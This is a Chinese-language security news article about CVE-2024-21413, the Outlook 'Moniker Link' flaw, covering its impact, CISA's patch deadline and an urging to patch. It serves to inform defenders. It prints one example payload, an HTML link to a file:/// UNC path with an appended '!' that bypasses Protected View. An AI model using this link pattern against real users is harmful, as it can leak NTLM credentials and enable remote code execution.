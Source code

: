 #  CVE-2024-21413 (CVSS 9.8)：严重 Outlook 漏洞正受到主动攻击，PoC 可用   
 Ots安全   2025-02-08 10:32  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
  
Microsoft Outlook 中一个严重漏洞（编号为 CVE-2024-21413）正在被广泛利用，对全球组织构成重大威胁。该漏洞的 CVSS 评分为 9.8（满分 10 分），攻击者只需打开恶意电子邮件即可远程执行任意代码。  
  
该漏洞由 Check Point 安全研究员 Haifei Li 发现，影响多个版本的 Microsoft Office，包括 Office 2016、2019、LTSC 2021 和 Microsoft 365 Enterprise 应用程序。该漏洞存在于 Outlook 在处理包含恶意链接的电子邮件时输入验证不当。至关重要的是，它允许攻击者绕过受保护的视图（旨在以只读模式打开 Office 文件的安全功能），而是以完全编辑模式打开恶意文档。  
  
该漏洞被 Check Point 称为“Moniker Link”，利用了 Outlook 处理 file:// 协议链接时的一个漏洞。通过在 URL 中的文件扩展名后添加感叹号和任意文本（例如）  
  
```
<a href=”file:///\\10.10.111.111\test\test.rtf!something”>CLICK ME</a>
```  
  
  
攻击者可以绕过 Outlook 的安全限制。这允许客户端访问远程资源而不会触发警告，从而为恶意负载打开大门。Check Point 确认了该漏洞在最新的 Windows 10/11 和 Microsoft 365（Office 2021）环境中的有效性，这表明其他 Office 版本可能也受到影响。他们认为这是 Windows/COM 生态系统中长期存在的问题，存在于核心 COM API 中。  
  
成功利用该漏洞的影响非常严重，包括窃取 NTLM 凭据信息以及通过恶意制作的 Office 文档执行任意代码。这可能使攻击者能够完全控制受害者的计算机、窃取敏感数据、部署勒索软件或执行其他恶意活动。  
  
美国网络安全和基础设施安全局 (CISA) 已发出警告，要求美国联邦机构在 2 月 27 日之前修补其系统，以防此漏洞被积极利用。鉴于漏洞的严重性和持续的攻击，尚未更新 Outlook 版本的组织面临巨大风险。  
  
尽管微软最初否认CVE-2024-21413 在零日攻击中被利用，但最近的报告表明威胁行为者正在积极滥用该漏洞。GitHub 上已发布了一个概念验证 (PoC) 漏洞，这进一步增加了大规模攻击的风险。  
  
Check Point 强烈建议所有 Outlook 用户尽快应用官方 Microsoft 补丁。此关键更新对于防范此被积极利用的漏洞并防止潜在的灾难性后果至关重要。不要等待 - 立即修补！  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
